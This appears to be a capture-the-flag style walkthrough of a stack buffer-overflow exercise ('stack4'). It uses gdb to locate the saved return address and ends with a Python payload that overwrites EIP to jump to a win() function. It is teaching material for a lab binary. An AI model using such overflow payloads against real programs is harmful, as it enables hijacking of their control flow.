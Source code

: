 <h2>Goal</h2>

The objective here is again to call the win function, but by overwriting `$EIP` instead of a variable that is used to call a function.

```
objdump -d stack4 | grep win
080483f4 <win>:
```

This is where gdb is going to be required, the previous could be determined by someone experienced without using gdb.

Lets go inside gdb and start examining `gdb -q stack4`


To do this exercise (not just by guessing) will require to learn the `LEAVE` and `RET` instructions.  A very very brief refresher, but by no means a detailed explanation.  `LEAVE` is used to release the stack frame by copying `$EBP` into `$ESP`.  `RET` is then used to go to a return address on the stack, which then becomes `$EIP`. 

What does this mean?

It means we need to find what the value of `$EIP` is after the `RET` instruction, then go back and break at `RET` and find that value on the stack. That value will be the target address to overwrite.

To find out the values of `LEAVE` and `RET`
`(gdb)disas main`

The last few lines will have the instructions `LEAVE` and `RET`. Set a breakpoint for the `RET` line. Should look something like:
`(gdb)break *main+23`

We have created a breakpoint at the  `RET` instruction, now define a hook-stop so that on every break point the hook-stop prints out the values I requested. In this case I used:

```
(gdb)define hook-stop
>x/1i $eip
>x/8wx $esp
>end
```
This will print out the current `$EIP` value and top eight values of the stack.  The break will pause execution at the line `gets(buffer);`

Create exploit payload using python.

This payload is the size of the buffer, we do not want to overwrite the value of `$EIP` just yet.
`python -c 'print "A"*64 > /tmp/exp`

We can use the file as input for the executable in gdb.
`(gdb) run < /tmp/exp`

Once the breakpoint is hit you can view the value of `$EIP` and top eight `$ESP` printed out thanks to the hook stop.

In gdb send a `s` to tell it to single step, this will move to the next instruction and pause again.

Issues the command `i r`, this will show the value of the registers. Look for the `$EIP` value. For me it was: `0xb7eadc76`

Now, re-issues the run command.  Once the breakpoint is hit, do not continue.  `0xb7eadc76` should show in the top 8 values of the stack as printed by the hook-stop. If it is not you can use:
`x/80x $esp`, this will print 80 values of the stack.  You should be able to find the value now.

Here is what I got:

```							
0xbffffca0:	0x000000 0xbffffd00 0xb7eadc76
```
`ebp` = `0xbffffd00`
Saved `eip` that return loads = `0xb7eadc76`

The goal is to overwrite that value with the win function address.  To determine how much padding is between the end of our variable `buffer` found the number of bytes between the end of the `0x414141`'s and the byte before $EIP starts, b7 of the saved `$EIP`. We will need to add that many more garbage bytes, then our memory address `\xf4\x83\x04\x08`.  I had to add 12 more garbage bytes (A's) in then my address to get this to work.

<h2>solution</h2>

`python -c 'print "A"*76+"\xf4\x83\x04\x08"' | ./stack4`

